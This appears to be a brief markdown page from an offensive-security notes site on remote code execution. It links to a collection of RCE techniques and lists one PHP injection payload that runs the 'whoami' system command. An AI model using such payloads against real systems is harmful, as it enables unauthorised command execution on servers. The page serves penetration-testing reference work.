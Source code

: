 +++
title = 'Remote Code Execution'
+++


## How to achieve RCE in known CMSes, frameworks and related

- https://github.com/p0dalirius/Awesome-RCE-techniques

## PHP

- `${@print(system("whoami"))}`
